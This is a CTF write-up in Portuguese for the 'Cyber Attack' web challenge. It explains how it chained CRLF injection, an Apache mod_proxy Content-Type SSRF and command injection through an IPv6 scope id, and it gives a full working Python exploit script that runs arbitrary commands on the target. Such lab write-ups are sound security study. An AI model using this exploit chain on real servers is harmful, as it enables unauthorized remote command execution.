

# Cyber Attack

>  Welcome, Brave Hero of Eldoria. You’ve entered a domain controlled by the forces of Malakar, the Dark Ruler of Eldoria. This is no place for the faint of heart. Proceed with caution: The systems here are heavily guarded, and one misstep could alert Malakar’s sentinels. But if you’re brave—or foolish—enough to exploit these defenses, you might just find a way to weaken his hold on this world. Choose your path carefully: Your actions here could bring hope to Eldoria… or doom us all. The shadows are watching. Make your move.

**Dificuldade:** Fácil  
**Código-fonte:** Fornecido  
**Técnicas utilizadas:** Injeção CRLF para forçar SSRF via Content-Type e Injeção de Comando

Esse desafio quase me fez desistir do CTF. Depois de terminar o [Trial By Fire](https://chatgpt.com/trail_by_fire/writeup-pt.md), fui direto pra esse aqui... e nada. Desisti e fui tentar o [Eldoria Panel](https://chatgpt.com/eldoria_panel/writeup-pt.md), que também falhei. E foi isso. Voltei nesse desafio só no domingo de manhã.

Basicamente, é uma aplicação PHP simples com uma funcionalidade principal: atacar um alvo específico. Você pode atacar usando um domínio ou um IP. A lógica do ataque está em dois scripts CGI escritos em Python, um para domínios e outro para IPs.

Ataque por domínio (em `src/cgi-bin/attack-domain`):
```python
form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```

Ataque por IP (em `src/cgi-bin/attack-ip`):
```python
form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```

O ataque por IP é bloqueado pelo reverse proxy do Apache, como podemos ver no `apache/apache2.conf`:
```conf
ServerName CyberAttack 

AddType application/x-httpd-php .php

<Location "/cgi-bin/attack-ip"> 
    Order deny,allow
    Deny from all
    Allow from 127.0.0.1
    Allow from ::1
</Location>
```

Ou seja: você pode tentar burlar a regex, mas vai falhar. Precisamos encontrar outra forma de contornar essa configuração do Apache.

Encontrei uma `injeção CRLF` no cabeçalho `Location:` dos dois scripts, mas inicialmente não consegui fazer nada de útil com isso.

Já tinha perdido várias horas na sexta tentando explorar esse caminho e não cheguei a lugar nenhum.

Então mudei minha abordagem. Em vez do clássico "tentativa e erro", resolvi pesquisar mais a fundo e bater um papo com meu amigo Gpeto (vulgo ChatGPT). Tentei olhar os arquivos de configuração diretamente e, quando isso também não levou a lugar algum, decidi abrir o `Dockerfile` e procurar por qualquer coisa suspeita.

Foi aí que encontrei esta linha:  
`RUN a2enmod rewrite cgi proxy proxy_fcgi proxy_http`

E foi quando as coisas ficaram esquisitas. Muito esquisitas.

Porque, por algum motivo maluco, o módulo `mod_proxy` do Apache permite fazer proxy com base no cabeçalho **Content-Type**. É isso mesmo que você leu.

Descobri essa insanidade no blog espetacular do `Carlos Polop`, o [HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/apache.html?highlight=mod_proxy#arbitrary-handler-to-full-ssrf).

Com isso, tudo começou a se encaixar. Eu só precisava contornar a função `ip_address`. Comecei pelas validações de IPv4 e não achei nada interessante. Mas quando fui pra IPv6, logo vi algo que chamou minha atenção:

A função verifica se há uma barra `/` no endereço. Se não houver, ela chama `self._split_scope_id`:
```python
addr_str = str(address)
if '/' in addr_str:
	raise AddressValueError("Unexpected '/' in %r" % address)
addr_str, self._scope_id = self._split_scope_id(addr_str)
```

E o método separa o escopo usando `%`. Ou seja, podemos passar algo como `::1%$(whoami)`:
```python
@staticmethod
def _split_scope_id(ip_str):
	"""Helper function to parse IPv6 string address with scope id.

	See RFC 4007 for details.

	Args:
		ip_str: A string, the IPv6 address.

	Returns:
		(addr, scope_id) tuple.

	"""
	addr, sep, scope_id = ip_str.partition('%')
	if not sep:
		scope_id = None
	elif not scope_id or '%' in scope_id:
		raise AddressValueError('Invalid IPv6 address: "%r"' % ip_str)
	return addr, scope_id
```

O problema é que não podemos usar `/`. Minha primeira ideia foi usar base64, mas tive problemas porque a string estava sendo convertida para letras minúsculas.

Então fui de hexadecimal mesmo, convertendo o comando inteiro.

O payload ficou assim: `::1$($(python -c "print('{cmd}')"|sh)` (com os escapes certinhos). Usei `socket` puro pra enviar a requisição HTTP e controlar toda a codificação.

Script completo:
```python
import argparse
import socket
import urllib.parse
import requests
import urllib

parser = argparse.ArgumentParser()
parser.add_argument("--host", type=str, default="localhost", help="Target Host")
parser.add_argument("--port", type=str, default="1337", help="Target Port")
parser.add_argument("--cmd", type=str, default="cp /flag*txt /var/www/html/flag.txt", help="Command to execute on the server")

args = parser.parse_args()

hex_str = args.cmd.encode().hex()
cmd = urllib.parse.quote(''.join(f'\\x{hex_str[i:i+2]}' for i in range(0, len(hex_str), 2)))

payload = f"""
Location:+/nope
Content-Type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(python3%2b-c%2b"print('{cmd}')"|sh)%26name=BB

""".replace('\n','%0d%0a')
s = socket.create_connection((args.host, int(args.port)))
req = f"""GET /cgi-bin/attack-domain?target=-&name={payload} HTTP/1.1
Host: {args.host}

""".replace('\n','\r\n')
s.sendall(req.encode())
_ = s.recv(4096).decode()
s.close()

response = requests.get(f"http://{args.host}:{args.port}/flag.txt")
print(response.text)
```

Depois de rodar o script, a flag foi capturada com sucesso: 


> **Nota:** Perdi o timing de escrever o write-up durante o evento e a festa acabou. Por isso, estou rodando o desafio localmente.  
> Mas juro que funciona. Sério mesmo!